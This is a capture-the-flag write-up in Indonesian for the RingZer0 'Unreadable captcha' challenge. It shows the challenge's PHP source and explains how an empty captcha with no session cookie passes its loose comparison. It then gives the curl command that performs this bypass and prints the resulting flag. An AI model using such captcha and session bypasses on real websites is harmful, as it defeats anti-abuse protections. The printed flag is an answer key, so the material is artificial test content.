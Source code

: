 <h1><b>Unreadable captcha</h1></b>
<pre>
Diberikan sebuah link captcha challenger
</pre>
</b><h3>Solution</h3></b>
<p align='justify'>Jika kita membaca captchanya itu merupakan character diluar standard ascii. Lakukan inspect element dan perhatikan paling bawah terdapat file txt yaitu source code
dari challenger tersebut dan buka --> http://challenges.ringzer0team.com:10142/captcha3.txt</p>

```php
<?php
session_start();
if ($_SERVER['REQUEST_METHOD'] === 'POST'){
	if (isset($_POST['captcha'])){
		if ($_POST['captcha'] == $_SESSION['captcha']){
		echo 'Congrats, the flag is XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX' ;  
		} else {
		echo 'You have a wrong captcha. You are not a human. Try again later.';
}
	} else {
   header( 'Location: index.php' ) ;
}

}
else {
   header( 'Location: index.php' ) ;
}
?>
```
<p>Dari program diatas flag dapat diperoleh jika Captcha dilakukan request POST dan captcha-nya berupa Session. Tips hapus session cookie dengan tool edit cookie dan captcha set null, lalu submit atau dengan perintah curl terminal dibawah</p>

```console
root@Python:/home/venom/Downloads# curl http://challenges.ringzer0team.com:10142/captcha3.php --data "captcha="
Congrats, the flag is FLAG-siLqVmuuEDDFtz9jqIFIAOQmCF
root@Python:/home/venom/Downloads# 

```
</b><h3>Flag</h3></b>
<pre>
FLAG-siLqVmuuEDDFtz9jqIFIAOQmCF
</pre>
